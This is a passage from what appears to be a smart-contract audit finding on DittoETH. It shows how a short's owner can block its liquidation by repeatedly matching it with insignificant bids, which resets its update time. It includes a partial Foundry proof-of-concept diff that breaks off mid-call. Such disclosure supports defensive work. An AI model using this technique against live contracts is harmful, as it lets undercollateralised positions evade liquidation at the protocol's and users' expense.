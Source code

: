 ``` solidity
                !(
                    (isBetweenFirstAndSecondLiquidationTime)
                        || (isBetweenSecondAndResetLiquidationTime)
                )
            ) {
                revert Errors.MarginCallIneligibleWindow(); // enters here if timeDiff is between 0 and 10
            }

            return true;
        }
    }
```
As you can see, any call with a `timeDiff` between 0 and 10 hours will cause the `liquidate()` function to revert.   
`timeDiff` is calculated as the following:
``` solidity
uint256 timeDiff = LibOrders.getOffsetTimeHours() - m.short.updatedAt;
```
What DittoETH doesn't account for, is that by creating bids that match the flagged short, it is possible to update the `short.updatedAt` to the current `getOffsetTimeHours()`.   
If every less than 10 hours the shorter owner matches it's own short, even with an insignificant amount of zETH, doesn't matter if the short is below `primaryLiquidationCR` (between 150% and 400%), the short cannot be liquidated.

### POC
Update the imports at [test/utils/MarginCallHelper.sol](https://github.com/Cyfrin/2023-09-ditto/blob/a93b4276420a092913f43169a353a6198d3c21b9/test/utils/MarginCallHelper.sol#L6C1-L12C1):   
``` diff
// From this
  import {U256, Math128, U88, U80} from "contracts/libraries/PRBMathHelper.sol";
  import {Constants} from "contracts/libraries/Constants.sol";
- import {STypes, O, SR} from "contracts/libraries/DataTypes.sol";
  import {Vault} from "contracts/libraries/Constants.sol";
  import {OBFixture} from "test/utils/OBFixture.sol";
  import {TestTypes} from "test/utils/TestTypes.sol";
// To this
  import {U256, Math128, U88, U80} from "contracts/libraries/PRBMathHelper.sol";
  import {Constants} from "contracts/libraries/Constants.sol";
+ import {STypes, MTypes, O, SR} from "contracts/libraries/DataTypes.sol"; // Add MTypes
  import {Vault} from "contracts/libraries/Constants.sol";
  import {OBFixture} from "test/utils/OBFixture.sol";
  import {TestTypes} from "test/utils/TestTypes.sol";
+ import {Errors} from "contracts/libraries/Errors.sol"; // Import errors
+ import {console} from "contracts/libraries/console.sol"; // Import logging
```

Insert the following lines at [test/utils/MarginCallHelper.sol, starting at line 83](https://github.com/Cyfrin/2023-09-ditto/blob/a93b4276420a092913f43169a353a6198d3c21b9/test/utils/MarginCallHelper.sol#L83):
``` diff
        //flag
        vm.startPrank(marginCaller);
        diamond.flagShort(asset, shorter, Constants.SHORT_STARTING_ID, Constants.HEAD);
        skipTimeAndSetEth({skipTime: TEN_HRS_PLUS, ethPrice: ethPrice});
+       // The subsequent code prevents anyone from liquidating the flagged short
+       MTypes.OrderHint[] memory orderHintArray = new MTypes.OrderHint[](1);
+       uint16[] memory shortHintArray = new uint16[](1);
+       orderHintArray[0] = MTypes.OrderHint({hintId: 101, creationTime: 123});
+       address attacker = sender;
+       depositEth(attacker, uint88(uint(1 ether).mul(1e18)));
+       vm.startPrank(attacker);
+       // First insignificant bid to create shortRecord over flagged short
+       diamond.createBid(
```